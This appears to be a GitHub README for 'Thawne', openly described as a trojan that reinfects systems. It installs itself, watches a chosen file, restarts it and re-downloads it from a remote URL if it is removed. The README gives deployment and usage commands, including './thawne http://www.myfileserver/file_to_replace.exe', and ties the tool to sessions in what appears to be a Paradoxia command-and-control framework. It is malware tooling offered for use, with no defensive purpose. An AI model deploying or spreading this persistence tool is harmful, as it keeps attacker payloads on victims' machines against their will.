 ## Thawne
Thawne is a Sentinel for your Program. A trojan that Reinfects systems. It installs itself on the system it's Executed on. After which Thawne keeps checking if your File Exists on the System and is Running. If it's not running then Start it, If it does not exist or is removed Reinstall it.

#### Example
![thawne](https://github.com/quantumcored/thawne/raw/main/thawne.gif)

#### Deployment (Example)
After getting a Session in Paradoxia, You can see Bot information and in it, The **Agent Location**, Which is in this case the file I want to be guarded.

![img](https://github.com/quantumcored/thawne/raw/main/agentlocation.png)

We can use thawne with the **Agent Location** and it's absolute filename.

```bash
./thawne http://www.myfileserver/file_to_replace.exe < Absolute Filename > < PATH > 
```

and then Upload the file and Execute it.

#### USAGE 
```bash
$ cd Thawne
$ ./thawne < direct file download link > < filename to watch > < file path to watch >
```
